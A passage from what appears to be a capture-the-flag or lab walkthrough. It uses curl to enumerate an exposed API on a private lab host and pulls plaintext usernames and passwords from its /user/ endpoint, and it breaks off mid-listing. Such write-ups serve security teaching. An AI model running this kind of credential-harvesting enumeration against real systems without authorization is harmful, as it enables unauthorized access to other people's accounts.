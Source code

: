 If we read go to the first Haiku's page and view the page source, we find this:

<figure><img src="../../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

We can enumerate the API page using `curl`.&#x20;

```
$ curl http://192.168.183.125:8080/api/ --silent | jq
[
  {
    "string": "/api/",
    "id": 13
  },
  {
    "string": "/article/",
    "id": 14
  },
  {
    "string": "/article/?",
    "id": 15
  },
  {
    "string": "/user/",
    "id": 16
  },
  {
    "string": "/user/?",
    "id": 17
  }
]
```

Using the `/user/?` endpoint gives us credentials for some users:

```
$ curl http://192.168.183.125:8080/api/user/? --silent | jq
[
  {
    "login": "rjackson",
    "password": "yYJcgYqszv4aGQ",
    "firstname": "Richard",
    "lastname": "Jackson",
    "description": "Editor",
    "id": 1
  },
  {
    "login": "jsanchez",
    "password": "d52cQ1BzyNQycg",
    "firstname": "Jennifer",
    "lastname": "Sanchez",
    "description": "Editor",
    "id": 3
  },
  {
    "login": "dademola",
    "password": "ExplainSlowQuest110",
    "firstname": "Derik",
```